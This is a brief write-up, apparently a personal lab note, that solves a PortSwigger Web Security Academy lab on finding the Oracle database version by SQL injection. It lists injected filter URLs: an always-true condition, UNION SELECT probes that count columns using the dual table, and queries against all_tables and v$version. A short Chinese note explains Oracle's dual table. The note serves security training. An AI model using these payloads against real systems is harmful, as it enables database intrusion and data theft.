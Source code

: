 https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

`https://0a6b009e0425c3fa8082eebc007a00af.web-security-academy.net/filter?category=' or 1 = 1 -- abc` --> OK

`https://0a6b009e0425c3fa8082eebc007a00af.web-security-academy.net/filter?category=' UNION SELECT NULL FROM dual -- abc` --> error

`https://0a6b009e0425c3fa8082eebc007a00af.web-security-academy.net/filter?category=' UNION SELECT NULL, NULL FROM dual -- abc` --> ok

`https://0a6b009e0425c3fa8082eebc007a00af.web-security-academy.net/filter?category=' UNION SELECT 'a', NULL FROM dual -- abc` --> ok

`https://0a6b009e0425c3fa8082eebc007a00af.web-security-academy.net/filter?category=' UNION SELECT table_name, NULL FROM all_tables -- abc`

`https://0a6b009e0425c3fa8082eebc007a00af.web-security-academy.net/filter?category=' UNION SELECT banner, NULL FROM v$version -- abc`

## Note
Oracle 中 SELECT 後面一定要有 FROM，為了讓 FROM 後面一定有東西接，所以有 `dual` table，基本上 `dual` 中保證只有一筆資料
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md
